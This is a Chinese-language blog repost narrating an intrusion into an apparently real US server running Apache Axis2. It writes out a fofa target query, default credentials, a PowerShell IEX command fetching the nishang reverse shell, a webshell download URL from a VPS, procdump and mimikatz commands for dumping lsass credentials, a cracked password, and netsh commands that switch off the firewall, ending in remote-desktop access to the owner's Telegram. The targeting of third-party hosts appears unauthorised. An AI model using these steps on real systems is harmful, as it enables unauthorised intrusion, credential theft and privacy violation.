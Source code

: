 FROM

```
https://www.cnblogs.com/backlion/p/15793287.html
```

学到了：

1. 出网可以直接powershell执行CS上线脚本
2. procdump导出lsass.dmp，本地mimikatz抓hash

---

# [绕过杀软拿下目标站](https://www.cnblogs.com/backlion/p/15793287.html)

## 0x01 目标 

```ini
country="US" && app="APACHE-Axis"
```

从老洞捡些漏网之鱼，没准还会有意外收获

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164702590-1914940666.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714152230-3fdd024a-e474-1.png)

目标出现

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164703269-409796320.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714152405-78cd6edc-e474-1.png)

还是熟悉的页面，熟悉的端口

然后尝试默认口令登录，ok, 这下稳了

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164703784-492837324.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714152611-c39b0fd2-e474-1.png)

先搜集一下信息

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164704428-1031611363.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714152642-d5faad2c-e474-1.png)

不要上来就部署包，先看一下现有的服务，像这种弱口令的基本上99.9999%都已经被人搞过了

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164704943-1143663517.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714152741-f993a5c2-e474-1.png)

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164705503-859439348.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714152750-fed326c0-e474-1.png)

再上传包就多此一举了，可以直接利用

找了一圈没发现遗留的马儿

找绝对路径自己上传

```bash
C:/elocker/webapps/admin/WEB-INF/classes
```

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164705932-1966461831.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714153205-96dbfabe-e475-1.png)

顺手一测，竟然可以出网，也不需要传shell了，直接掏出cs

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164706379-551799478.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714153502-00089858-e476-1.png)

执行命令

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164707036-902281158.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714153550-1c8a1ac4-e476-1.png)

看结果失败了

## 0x02 反弹shell

难道是因为在url里执行，导致powershell命令没有执行成功吗？

带着这个疑问 反弹shell尝试一下

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164707518-742169218.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714154439-57dcf456-e477-1.png)

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164707971-2053066810.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714154458-639ac7dc-e477-1.png)

结果还是失败，可以确定，应该是有waf

## 0x03 写入shell

```bash
x.x.x.x:8080/services/config/download?url=http://x.x.x.x/dama.txt&path=C:\elocker\webapps\admin\axis2-web\shell.jsp
```

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164708430-796309663.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714154852-ef1d462c-e477-1.png)

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164708961-1830718985.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714154904-f5c0690a-e477-1.png)

查看一下进程

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164709700-431368973.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714155219-6a1d0d30-e478-1.png)

通过对比发现某安全卫士

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164710274-561240991.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714155312-8990a0d2-e478-1.png)

## 0x04 绕过杀软

通过测试发现，最基本的`net user`也执行不了

摆在面前的路只有2条

- 做免杀
- 抓密码

果断选择抓密码，简单有效。

mimikatz不免杀不可直接用

这里我利用procdump把lsass进程的内存文件导出本地，再在本地利用mimikatz读取密码

上传 procdump64.exe 并下载lsass.dmp

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164710740-364111678.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714161612-c024ab04-e47b-1.png)

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164711227-614035489.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714161418-7c3254a0-e47b-1.png)

再在本地解析文件

```perl
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
# 导出为lsass.dump文件
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
# 把lsass.dmp放在mimikatz目录利用
```

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164711763-157868246.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714161629-ca5812c8-e47b-1.png)

得到hash,破解密码

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164712218-2039058059.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714161655-d9eec1e6-e47b-1.png)

## 0x05 登录服务器

查看防火墙状态

```sql
Netsh Advfirewall show allprofiles
```

关闭防火墙

```vbnet
NetSh Advfirewall set allprofiles state off
```

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164712683-3724176.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714161836-163a269a-e47c-1.png)

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164713102-414798445.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714161850-1e4f2a24-e47c-1.png)

内网IP，需搭建代理

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164713537-195359877.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714162039-5fb46380-e47c-1.png)

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164713911-848756372.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714162053-67e3d18a-e47c-1.png)

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164714273-555776031.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714162104-6eb74cf8-e47c-1.png)

## 0x06 登录云桌面，发现意外惊喜

发现机主运行了 telegram，嘿嘿

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164714865-1133025225.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714162152-8adbfeb0-e47c-1.png)

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164716092-1085897559.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714162204-927a1bf2-e47c-1.png)

[![img](https://img2020.cnblogs.com/blog/1049983/202201/1049983-20220112164716924-903276189.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210714162215-98ed53aa-e47c-1.png)

## 0x07 总结

1.通过fofa的语法country="US" && app="APACHE-Axis"进行搜索漏洞目标

2.发现存在一个axis2的后台，该页面存在弱口令（admin/axis2）

3.在后台处的upload sevice处上传AxisInvoker.aar包

4.查询到网站的绝对路径为：C:/elocker/webapps/admin/WEB-INF/classes

http://www.xxx.com/axis2/services/AxisInvoker/info

5.尝试通过cs生成posershell后门程序，通过访问下面地址触发，但是访问失败(可能系统中存在杀软拦截了）

http://www.xxx.com/axis2/services/AxisInvoker/exec?cmd=powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress yourip -port 6666

http://www.xxx.com/axis2/services/AxisInvoker/exec?cmd=dir%20C：

6.通过下载文件方式写入大马

http://www.xxx.com/axis2/services/AxisInvoker/download?url=http://vps/data.txt&file=C:\elocker\webapps\admin\axis2-web\shell.jsp

7.在大马中执行tasklist,发现存在360tary(360杀毒）以及zhudongfangyu.exe（安全卫士）

8.在大马中上传冰蝎的一句户话木马，然后连接，执行命令net user出错。

9.这里通过冰蝎上传 procdump64.exe,并执行命令导出lsass.dmp

 procdump64.exe -accepteula -ma lsass.exe lsass.dmp

10.通过冰蝎下载 lsass.dmp到本地。

11.通过mimkiatz导入lsass.dump并读取出hash值

mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit

12.通过md5破解网站对HSAH值进行NTML破解，并成功破解出密码：123QWEqwe

13.通过大马执行以下命令

Netsh Advfirewall show allprofiles //查看防火墙状态

NetSh Advfirewall set allprofiles state off //关闭防火墙

14.通过冰蝎自带的socke功能开启代理，本地设置Proxifier代理将MSTSC添加到代理中

15.通过代理执行mstsc，远程桌面登录内网，桌面发现存在telegram